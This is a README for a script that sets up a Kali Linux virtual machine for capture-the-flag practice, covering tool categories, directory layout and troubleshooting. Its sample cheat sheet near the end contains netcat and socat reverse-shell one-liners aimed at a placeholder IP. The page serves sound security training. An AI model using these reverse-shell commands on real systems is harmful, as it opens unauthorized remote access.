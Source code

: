 # 🛡️ Kali Linux CTF VM Setup

Automated setup for a Kali Linux Virtual Machine optimized for Capture The Flag (CTF) competitions.

> **Date:** September 21, 2025  
> **Tested On:** Kali Linux 2025.x  
> **Author:** Frederick Pellerin  
> **Website:** [www.therealfred.ca](https://www.therealfred.ca)    
> **License:** MIT

## 📋 Overview

This project provides an automated setup script that configures a Kali Linux VM specifically for CTF competitions. It installs essential tools organized by category, creates a structured directory layout, configures useful aliases, and applies security enhancements.

The modular approach allows you to selectively install only the tools you need, reducing bloat while ensuring you have everything required for various CTF challenges.

## 🚀 Key Features

- **Modular Installation**: Choose which tool categories to install
- **Organized Structure**: Predefined directory layout for CTF organization
- **Essential Tools**: Comprehensive toolset for all major CTF categories
- **Security Hardening**: Firewall configuration and service management
- **Customization**: Optional enhancements like Zsh, Nerd Fonts, and ProxyChains
- **Logging**: Setup progress logged to `/root/ctf_setup.log`
- **Verification**: Automated verification of installed tools
- **Snapshot Ready**: Prepared for VM snapshot creation

## 📦 Installation

1. **Download the Script**
   ```bash
   wget -O ctf_setup.sh https://raw.githubusercontent.com/TheRealFredP3D/Kali-VM-Setup/main/install.sh
   ```

2. **Make it Executable**
   ```bash
   chmod +x install.sh
   ```

3. **Run as Root**
   ```bash
   sudo ./install.sh
   ```

The script will prompt you to install optional components.

## 🧰 Tool Categories

The script installs tools in the following categories:

- **Core Tools**: nmap, netcat, tcpdump, wireshark, git, python3, etc.
- **Reconnaissance**: gobuster, ffuf, amass, whatweb, nikto, etc.
- **Web Exploitation**: burpsuite, sqlmap, wfuzz, zaproxy, wafw00f, etc.
- **Reverse Engineering**: ghidra, radare2, gdb, peda, binwalk, etc.
- **Forensics**: foremost, sleuthkit, steghide, stegosuite, etc.
- **Password Cracking**: john, hashcat, hydra, medusa, etc.
- **Exploit Development**: metasploit-framework, pwntools, ropper, etc.

## 🗂️ Directory Structure

The script creates an organized directory structure at `/root/CTF/`:

```
CTF/
├── binaries/      # Binary exploitation challenges
├── crypto/        # Cryptography challenges
├── forensics/     # Forensics challenges
├── notes/         # Notes and cheat sheets
│   ├── notes.md
│   └── cheatsheet.md
├── pwn/           # Pwn challenges
├── reversing/     # Reverse engineering challenges
├── tools/         # Additional tools and wordlists
├── web/           # Web exploitation challenges
└── writeups/      # Challenge writeups
```

## ⚙️ Optional Enhancements

You'll be prompted to install these optional components:

- **Zsh & Oh My Zsh**: Enhanced shell with plugins
- **Nerd Fonts**: Improved terminal font support
- **ProxyChains**: Network proxy configuration
- **Visual Studio Code**: Code editor
- **Docker Testbeds**: DVWA and Vulnix for practice
- **Passwordless Sudo**: Convenience setting for isolated VMs

## 🔒 Security Features

- UFW firewall with outbound rules for HTTP, HTTPS, DNS
- Disabled unnecessary services (bluetooth, cups)
- Optional passwordless sudo for isolated environments
- Increased file watch limits for better performance

## ✅ Verification

The script automatically verifies installation of key tools:
- nmap, burpsuite, ghidraRun, sqlmap, john
- SecLists wordlists

## 💾 Post-Setup Steps

1. Shut down the VM
2. Create a snapshot called `CTF Base`
3. Start solving challenges on:
   - [TryHackMe](https://tryhackme.com/)
   - [Hack The Box](https://hackthebox.com/)
   - [PicoCTF](https://picoctf.org/)

## 🔧 Troubleshooting

| Issue | Solution |
|-------|----------|
| Network not working | Check VirtualBox/VMware adapter settings |
| Script fails | See `/root/ctf_setup.log` |
| Tool missing | Try reinstalling: `sudo apt install -y <tool>` |
| Fonts not applied | Run `fc-cache -fv` and restart terminal |
| Zsh not loaded properly | Run `source ~/.zshrc` as user |

## 📝 Sample Cheat Sheet

Example from `cheatsheet.md`:

```markdown
## Reverse Shells
- Netcat: `nc -e /bin/bash 10.10.10.10 4444`
- Socat: `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444`

## Common Commands
- Nmap: `nmap -sC -sV -Pn <target>`
- Gobuster: `gobuster dir -u <url> -w ~/tools/SecLists/Discovery/Web-Content/common.txt`
```

## 📬 Customization

This setup can be extended into:
- Ansible or Docker-based reproducible labs
- Versioned GitHub repository
- Headless setup flow with install flags

Happy Hacking! 🐱‍💻
